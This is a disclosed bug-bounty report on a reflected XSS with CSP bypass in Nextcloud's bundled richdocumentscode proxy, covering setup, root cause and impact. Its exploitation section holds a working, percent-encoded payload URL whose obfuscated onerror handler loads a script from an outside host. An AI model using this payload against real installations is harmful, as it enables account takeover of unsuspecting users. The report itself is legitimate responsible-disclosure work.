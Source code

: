 # Reflected XSS vulnerability with full CSP bypass in Nextcloud installations using recommended bundle

## Report Details
- **Report ID**: 1893186
- **URL**: https://hackerone.com/reports/1893186
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-03-06T13:48:53.293Z
- **Disclosed**: 2023-05-15T06:44:55.846Z

## Reporter
- **Username**: lukasreschke
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
## Summary:

The vulnerability report describes a reflected XSS vulnerability with full CSP bypass in Nextcloud installations using the recommended bundle. The vulnerability can be exploited to perform a trivial account takeover attack.

## Steps To Reproduce:

## Setup Nextcloud
Download the latest Nextcloud release from Docker and run it on port 80:

```
docker run -d -p 80:80 nextcloud:latest
```

Open `http://localhost` in your browser and enter your chosen admin username and password. On the next screen install all recommended apps. The standard "Nextcloud Office" here will result in installing the vulnerable `richdocumentscode` application (see [HubBundle.php](https://github.com/nextcloud/server/blob/eddc6f2103665d985a9e541b16d61fab5ba6a1ee/lib/private/App/AppStore/Bundles/HubBundle.php#L45)):

{F2211280}

## Exploitation

Open the following URL in your (or the victims) browser (the payload needs some extra encoding):

> http://localhost/custom_apps/richdocumentscode/proxy.php?req=/browser/a4b9c74/cool.html?WOPISrc=http://example.com:%3c%69%6d%67%20%73%72%63%3d%27%27%20%6f%6e%65%72%72%6f%72%3d%27%73%3d%64%6f%63%75%6d%65%6e%74%2e%63%72%65%61%74%65%45%6c%65%6d%65%6e%74%28%53%74%72%69%6e%67%2e%66%72%6f%6d%43%68%61%72%43%6f%64%65%28%31%31%35%2c%39%39%2c%31%31%34%2c%31%30%35%2c%31%31%32%2c%31%31%36%29%29%3b%73%2e%73%72%63%3d%53%74%72%69%6e%67%2e%66%72%6f%6d%43%68%61%72%43%6f%64%65%28%34%37%2c%20%34%37%2c%20%34%39%2c%20%35%33%2c%20%34%36%2c%20%31%31%34%2c%20%31%31%35%29%3b%64%6f%63%75%6d%65%6e%74%2e%62%6f%64%79%2e%61%70%70%65%6e%64%43%68%69%6c%64%28%73%29%27%3e

There is a full CSP bypass as the `proxy.php` from the default shipped "richdocumentscode" is not using a regular Nextcloud controller but plain PHP code:

{F2211288}


## Root cause

1. Collabora Online is generating HTML documents using insecure string concatenation. ([code pointer](https://github.com/CollaboraOnline/online/blob/00b0fd48c949af475f8be0cc5bfd2149805f7905/wsd/FileServer.cpp#L719-L722))
2. The included `proxy.php` inside the "richdocumentscode" is not applying any of the default CSP policies of Nextcloud, as it is running on the same origin this can be used for a trivial account take over attack. ([code pointer](https://github.com/CollaboraOnline/richdocumentscode/blob/3043ad186a9896899ff8d6f3ea83c93c5d487b48/proxy.php))

## Impact

The vulnerability allows attackers to inject malicious code into web pages, which can be executed in the context of the victim's browser session. This means that an attacker can steal sensitive data, such as login credentials or personal information, or perform unauthorized actions on behalf of the victim, such as modifying or deleting data.

In this specific case, the vulnerability allows for a trivial account takeover attack. An attacker can exploit the vulnerability to inject code into the victim's browser session, allowing the attacker to take over the victim's account without their knowledge or consent. This can lead to unauthorized access to sensitive information and data, as well as the ability to perform actions on behalf of the victim.

Furthermore, the fact that the vulnerability bypasses the Content Security Policy (CSP) makes it more dangerous, as CSP is an important security mechanism used to prevent cross-site scripting attacks. By bypassing CSP, attackers can circumvent the security measures put in place by the web application and execute their malicious code.

## Attachments
- Screenshot_2023-03-06_at_14.25.38.png
- Screenshot_2023-03-06_at_14.28.45.png
